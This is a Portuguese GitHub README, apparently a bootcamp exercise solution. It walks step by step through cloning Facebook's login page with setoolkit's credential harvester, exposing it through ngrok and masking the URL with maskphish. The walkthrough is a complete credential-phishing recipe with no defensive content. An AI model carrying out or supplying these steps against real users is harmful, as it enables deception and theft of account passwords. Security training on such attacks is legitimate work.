



# Phishing para captura de senhas do Facebook

### "Minha solução do exercício proposto no BootCamp de cibersegurança da Dio e Santander"

## Ferramentas

- Kali Linux
- setoolkit
- ngrok
- maskphish

## Configurando o Phishing no Kali Linux

- Acesso root: ``` sudo su ```

### setoolkit

- Iniciando o setoolkit: ``` setoolkit ```
- Tipo de ataque: ``` Social-Engineering Attacks ```
- Vetor de ataque: ``` Web Site Attack Vectors ```
- Método de ataque: ```Credential Harvester Attack Method```
- Método de ataque: ``` Site Cloner ```
- Obtendo o endereço da máquina: ``` ifconfig ```
- URL para clone: <http://www.facebook.com>

### ngrok para expor o localhost:80

- Iniciando o ngrok: ``` ngrok http 80 ```



### MaskPhish para mascarar a URL

- Clonando o Repositório: ```git clone https://github.com/jaykali/maskphish.git```

- Entrar na pasta: ```cd maskphish/```

- Iniciando o MaskPhish ```bash maskphish.sh```

- Primeiro inserir URL de destino em seguida a URL que servirá de mascara.



## Resutados


